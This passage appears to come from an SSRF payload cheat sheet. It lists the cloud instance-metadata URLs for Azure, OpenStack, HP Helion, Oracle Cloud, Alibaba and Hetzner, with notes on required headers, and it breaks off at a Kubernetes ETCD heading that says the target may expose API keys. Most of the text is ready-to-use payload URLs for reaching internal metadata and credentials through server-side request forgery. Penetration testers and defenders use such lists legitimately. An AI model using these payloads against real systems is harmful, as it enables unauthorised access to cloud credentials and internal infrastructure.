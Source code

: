 ```
http://169.254.169.254/metadata/v1/maintenance
```

Update Apr 2017, Azure has more support; requires the header "Metadata: true" `https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service`

```
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

**SSRF URL for OpenStack/RackSpace**

(header required? unknown)

```
http://169.254.169.254/openstack
```

**SSRF URL for HP Helion**

(header required? unknown)

```
http://169.254.169.254/2009-04-04/meta-data/
```

**SSRF URL for Oracle Cloud**

```
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

**SSRF URL for Alibaba**

```
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

**SSRF URL for Hetzner Cloud**

```
http://169.254.169.254/hetzner/v1/metadata
http://169.254.169.254/hetzner/v1/metadata/hostname
http://169.254.169.254/hetzner/v1/metadata/instance-id
http://169.254.169.254/hetzner/v1/metadata/public-ipv4
http://169.254.169.254/hetzner/v1/metadata/private-networks
http://169.254.169.254/hetzner/v1/metadata/availability-zone
http://169.254.169.254/hetzner/v1/metadata/region
```

**SSRF URL for Kubernetes ETCD**

Can contain API keys and internal ip and ports
